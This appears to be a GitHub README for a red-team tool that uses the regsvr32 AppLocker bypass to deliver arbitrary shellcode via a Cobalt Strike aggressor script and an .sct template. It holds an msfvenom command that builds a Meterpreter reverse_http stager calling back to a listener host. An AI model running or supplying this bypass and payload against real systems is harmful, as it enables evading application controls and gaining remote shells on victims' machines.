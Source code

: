 # regsvr32

regsvr32 applocker bypass - arbitrary shellcode payload delivery via cobalt strike.  

see the companion blog post at http://atropineal.com/2017/05/20/playing-with-the-regsrv32-applocker-bypass/

files:

* regsvr32.cna: a cobalt strike aggressor script.  give it some shellcode and it'll host the file and supply you with a one-liner to execute on-target.  in this script you'll need to change the path to regsvr32.sct
* regsvr32.sct: a template that the aggressor script stuffs the shellcode into before hosting it for download via the one-liner

example shellcode to use (point it at metasploit, armitage or cobalt strike listeners):

msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_http LHOST=192.168.56.101 LPORT=80 EXITFUNC=thread -f raw > stager.bin

credits:

* yuri popov: for the dynamic wrapper x dll
* casey smith aka subtee: for the jscript that uses dynamic wrapper x dll, and a means to use it without registration

major reference sources:

* http://www.cyberforum.ru/post5932812.html
* https://gist.githubusercontent.com/subTee/ca6ab8ec75ec38c213da580cd0de30fe/raw/dbb7a6c3cb65fc2fcbb4bcfedc8395b258f9658a/calc.sct
* https://gist.github.com/subTee/353ba45c4f16646d10cdfd79cf9d88c9
* https://gist.github.com/iron9light/1191402
* http://sleep.dashnine.org/manual/
* https://www.cobaltstrike.com/aggressor-script/index.html
